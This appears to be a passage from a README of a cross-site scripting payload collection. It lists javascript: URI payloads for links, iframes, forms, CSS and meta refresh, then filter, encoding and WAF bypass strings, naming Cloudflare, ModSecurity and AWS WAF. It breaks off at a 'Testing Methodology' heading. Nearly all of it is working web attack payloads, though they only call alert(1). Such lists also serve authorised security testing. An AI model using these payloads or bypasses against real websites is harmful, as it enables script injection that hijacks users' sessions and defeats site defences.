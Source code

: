 ```html
<a href="javascript:alert(1)">Link</a>

<iframe src="javascript:alert(1)"></iframe>

<form action="javascript:alert(1)">
```

#### CSS Injection

```css
background: url('javascript:alert(1)');
```

#### Meta Refresh

```html
<meta http-equiv="refresh" content="0;url=javascript:alert(1)">
```

## Included Bypass Techniques

### 1\. Filter Bypasses

  - **Case Variation**: ScRiPt, SCRIPT, Script
  - **Null Bytes**: \\x00 injection
  - **Whitespace**: Tab, newline, carriage return
  - **Comments**: /\*\*/, //, - **String Concatenation**: "XS"+"S", String.fromCharCode()

### 2\. Encoding Bypasses

  - **HTML Entities**: \<script\>, \<script\>
  - **URL Encoding**: %3Cscript%3E
  - **Unicode**: \\u003cscript\\u003e
  - **Hex**: \\x3cscript\\x3e
  - **Base64**: PHNjcmlwdD4=

### 3\. WAF Bypasses

  - **CloudFlare**: \<svg/onload=alert(1)\>
  - **ModSecurity**: String.fromCharCode(), atob()
  - **AWS WAF**: alert`1`, (alert)(1)
  - **Generic**: eval(atob()), Function()

### 4\. Context-Specific

  - **JavaScript Context**: alert(1), eval()
  - **HTML Attribute**: " onmouseover="alert(1)
  - **CSS Context**: expression(alert(1))
  - **URL Context**: javascript:alert(1)

## Testing Methodology
